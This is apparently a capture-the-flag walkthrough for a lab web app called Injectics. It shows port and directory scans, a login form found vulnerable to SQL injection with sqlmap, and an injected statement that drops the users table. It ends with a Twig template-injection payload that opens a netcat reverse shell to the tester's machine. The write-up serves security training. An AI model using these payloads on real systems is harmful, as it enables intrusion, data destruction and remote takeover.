



# Injectics
Use your injection skills to take control of a web app.

## Challenge

*Can you utilise your web pen-testing skills to safeguard the event from any injection attack?*

### What is the flag value after logging into the admin panel?

```
nmap -sV -T4 -p- 10.10.139.50 -vv
Starting Nmap 7.80 ( https://nmap.org ) at 2025-08-22 05:57 BST
NSE: Loaded 45 scripts for scanning.
Initiating ARP Ping Scan at 05:57
Scanning 10.10.139.50 [1 port]
Completed ARP Ping Scan at 05:57, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:57
Completed Parallel DNS resolution of 1 host. at 05:57, 0.00s elapsed
Initiating SYN Stealth Scan at 05:57
Scanning ip-10-10-139-50.eu-west-1.compute.internal (10.10.139.50) [65535 ports]
Discovered open port 80/tcp on 10.10.139.50
Discovered open port 22/tcp on 10.10.139.50
Completed SYN Stealth Scan at 05:58, 5.90s elapsed (65535 total ports)
Initiating Service scan at 05:58
Scanning 2 services on ip-10-10-139-50.eu-west-1.compute.internal (10.10.139.50)
Completed Service scan at 05:58, 6.05s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.139.50.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:58
Completed NSE at 05:58, 0.04s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:58
Completed NSE at 05:58, 0.02s elapsed
Nmap scan report for ip-10-10-139-50.eu-west-1.compute.internal (10.10.139.50)
Host is up, received arp-response (0.0011s latency).
Scanned at 2025-08-22 05:57:56 BST for 12s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 02:E9:9E:BE:F5:A7 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.98 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65537 (2.621MB)
```

```
gobuster dir -u http://10.10.139.50/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.139.50/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/flags                (Status: 301) [Size: 312] [--> http://10.10.139.50/flags/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.139.50/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.139.50/js/]
/vendor               (Status: 301) [Size: 313] [--> http://10.10.139.50/vendor/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.139.50/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
Progress: 218275 / 218276 (100.00%)
===============================================================
Finished
===============================================================
```

View source of main page



Let's visit `http://10.10.139.50/mail.log`

There are the default credentials that will be added for new users to table `users`

Try to login and intercept request via burp

```
POST /functions.php HTTP/1.1
Host: 10.10.139.50
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://10.10.139.50
Connection: keep-alive
Referer: http://10.10.139.50/login.php
Cookie: PHPSESSID=ldmchcjcati62a7ogcr0or5pu5; PHPSESSID=e9u40gqt58ee6s90q0094poloh
Priority: u=0

username=test%40injectics.thm+&password=devPasswd123&function=login
```

Failure

Send this request to sqlmap

```
sqlmap -r req.txt -p username --dbms=mysql --risk=3 --level=5 --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:21:27 /2025-08-22/

[06:21:27] [INFO] parsing HTTP request from 'req.txt'
[06:21:27] [INFO] testing connection to the target URL
[06:21:27] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:21:27] [INFO] testing if the target URL content is stable
[06:21:28] [INFO] target URL content is stable
[06:21:28] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[06:21:28] [INFO] testing for SQL injection on POST parameter 'username'
[06:21:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
...
sqlmap identified the following injection point(s) with a total of 2789 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=test@injectics.thm ' RLIKE SLEEP(5)-- MwLd&password=devPasswd123&function=login
---
[06:24:02] [INFO] the back-end DBMS is MySQL
[06:24:02] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[06:24:02] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.139.50'
[06:24:02] [WARNING] you haven't updated sqlmap for more than 1967 days!!!

[*] ending @ 06:24:02 /2025-08-22/
```

Now you can login with using payload string from sqlmap

Let's try to edit some results
Here you can see container with edit_dashboard.php



Change `value` field to `4; delete table users-- -` and wait for 1-2 minutes

Login with superadmin default credentials from `http://10.10.139.50/mail.log`

**What is the content of the hidden text file in the flags folder?**

```
gobuster dir -u http://10.10.139.50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.139.50
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/flags                (Status: 301) [Size: 312] [--> http://10.10.139.50/flags/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.139.50/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.139.50/js/]
/vendor               (Status: 301) [Size: 313] [--> http://10.10.139.50/vendor/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.139.50/phpmyadmin/]
Progress: 23069 / 218276 (10.57%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 26001 / 218276 (11.91%)
===============================================================
Finished
===============================================================
```
Search on vendor folder
```
root@ip-10-10-67-34:~# gobuster dir -u http://10.10.139.50/vendor -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.139.50/vendor
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/bin                  (Status: 301) [Size: 317] [--> http://10.10.139.50/vendor/bin/]
/composer             (Status: 301) [Size: 322] [--> http://10.10.139.50/vendor/composer/]
/twig                 (Status: 301) [Size: 318] [--> http://10.10.139.50/vendor/twig/]
Progress: 87714 / 218276 (40.18%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 90541 / 218276 (41.48%)
===============================================================
Finished
===============================================================
```
It's twig, its vulnerable to SSTI

Try ssti


Try reverse shell
```
{{['busybox nc 10.10.67.34 1234 -e /bin/bash','']|sort('passthru')}}
```